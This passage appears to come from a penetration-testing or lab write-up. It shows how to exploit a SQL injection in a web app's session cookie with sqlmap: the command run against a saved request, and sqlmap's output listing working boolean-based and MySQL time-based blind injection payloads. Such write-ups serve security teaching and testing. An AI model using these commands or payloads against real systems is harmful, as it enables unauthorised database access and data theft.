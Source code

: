 - Continue the attack with Intruder or proceed with `sqlmap`

```bash
nano req2.txt # paste the Request with unmodified Cookie

sqlmap -r req2.txt --level=2

---
Parameter: session (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND 9663=9663 AND 'XdcY'='XdcY

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND (SELECT 9555 FROM (SELECT(SLEEP(5)))biVe) AND 'bAxW'='bAxW
---
```

![](6-webappassets/2025-02-24_22-43-34_906.png)
